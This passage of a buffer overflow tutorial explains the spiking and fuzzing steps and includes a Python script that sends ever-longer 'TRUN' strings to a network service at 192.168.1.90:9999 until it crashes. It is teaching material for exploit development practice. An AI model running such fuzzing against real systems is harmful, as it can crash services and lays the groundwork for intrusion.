 > **Note:** Overflowing a buffer on the stack eventually overwrites the saved EIP. This is where you gain control of the execution flow.

---

## Step 1. Spiking

### Objective
Determine that a buffer overflow exists and roughly how many bytes are needed to crash the application.

### What you do
Send a very long string (often of repeated characters) to the vulnerable input until the application crashes.

### Example
A tool (such as a custom `generic_send_tcp`) or a Python script can be used to send this “spike.”

> **Note:** The term “spiking” refers to the initial step of flooding the input to find when the application crashes.

---

## Step 2. Fuzzing

### Objective
Refine the amount of data needed to crash the application.

### How
Use a script that repeatedly sends an increasing number of characters until the service stops responding.

### Example Python Script (`1.py`)

```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100  # start with 100 bytes

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.90', 9999))
        # Note: 'TRUN /.:/' is specific to the vulnerable command; adjust as needed.
        s.send(('TRUN /.:/' + buffer))
        s.close()
        sleep(1)
        buffer += "A" * 100  # increase payload size gradually
    except:
        print("Fuzzing crashed at %s bytes" % len(buffer))
        sys.exit()
```
